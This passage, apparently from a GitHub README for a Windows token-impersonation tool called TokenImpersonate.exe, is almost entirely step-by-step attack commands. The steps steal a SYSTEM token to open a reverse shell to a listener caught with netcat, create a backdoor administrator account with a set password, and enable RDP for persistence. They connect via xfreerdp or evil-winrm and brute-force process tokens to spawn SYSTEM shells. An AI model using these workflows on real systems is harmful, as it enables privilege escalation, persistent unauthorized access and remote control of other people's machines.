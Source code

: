 # Step 2: List accessible processes
.\TokenImpersonate.exe list | findstr "SYSTEM"

# Step 3: Target a SYSTEM process
.\TokenImpersonate.exe 540 shell 192.168.19.128 4444

# Step 4: On Kali - catch the shell
nc -lvnp 4444

Workflow 3: Create Backdoor Admin Account
Scenario: You want persistence via a new admin user
powershell# Step 1: Find a SYSTEM or Admin process
.\TokenImpersonate.exe list | findstr "spoolsv\|SYSTEM"

# Step 2: Create admin user
.\TokenImpersonate.exe 540 adduser backdoor P@ssw0rd123!

# Step 3: Enable RDP for persistence
.\TokenImpersonate.exe 540 rdp

# Step 4: Verify user creation
net user backdoor
net localgroup Administrators

# Step 5: Connect via RDP
xfreerdp /v:192.168.19.135 /u:backdoor /p:'P@ssw0rd123!'
# OR via WinRM
evil-winrm -i 192.168.19.135 -u backdoor -p 'P@ssw0rd123!'

Workflow 4: Brute Force When You Don't Know PIDs
Scenario: You're not sure which process to target
powershell# Step 1: Brute force by username - tries all until one works
.\TokenImpersonate.exe brute "BUILTIN\Administrators"

# Result: Spawns SYSTEM cmd.exe from first working process

# Step 2: Use that to create backdoor
.\TokenImpersonate.exe brute Administrator adduser hacker Pass123!

# Step 3: Or get direct shell
.\TokenImpersonate.exe brute Administrator shell 192.168.19.128 4444
